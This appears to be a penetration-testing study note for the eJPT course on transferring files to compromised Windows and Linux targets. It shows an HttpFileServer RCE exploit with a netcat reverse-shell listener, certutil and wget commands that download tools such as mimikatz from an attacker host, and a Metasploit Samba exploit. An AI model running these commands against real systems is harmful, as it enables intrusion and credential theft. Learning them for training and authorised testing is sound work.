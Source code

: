 # 51 Transferring Files to Windows & Linux Targets

# Setting up a Web Server with Python

- After obtaining initial access to a target system, you will need to transfer files to the target system.
- In some cases, you will not have access to the target system via a Meterpreter session, and as a result, you will need to use the inbuilt OS specific utilities to facilitate the transfer of file from your system to the target system.
- This process utilizes a two-step approach, where you will need to host the files you want to transfer on a web server and download the files hosted on the web server to the target system.

- Python comes with a build-in module known as SimpleHTTPServer (Python2) and http.server (Python3), that can be used to facilitate a simple HTTP server that gives you standard GET and HEAD request handlers.
- This module can be used to host files in any directory of your system. And can be implemented through a single command in your terminal.

### DEMO

```shell
python -m SimpleHTTPServer <port> # Python 2
python3 -m http.server <port> # Python 3
```


# Transferring files to Windows targets

### DEMO

```shell
# Example with HttpFileServer 2.3.x RCE exploit
searchsploit -m 39161
# Configure the exploit

# Setup Python server with nc.exe
python3 -m http.server 80
# Setup listener
nc -nvlp 1234 

# Run the exploit
python exploit.py <target-ip> <target-port>

# Gained the shell
shell: cd C:\\
shell: mkdir Temp # Better use this directory for upload files
shell: cd Temp

# Setup new Python server for new files upload
python3 -m http.server 80

# Download files with Windows shell, in this case mimikatz.exe
shell: certutil -urlcache -f http://<attacker-ip>/mimikatz.exe mimikataz.exe

# Run executable
.\mimikatz.exe
mimikataz: privilege::debug # Setting privileges
```


# Transferring files to Linux targets

### DEMO

```shell
# Example with Samba smbd 3.X - 4.X
msf6: exploit(linux/samba/is_known_pipename)

# Setup Python http.server

# To download in Linux shell
wget http://<attacker-ip>/file 
```

#cybersecurity #eJPT 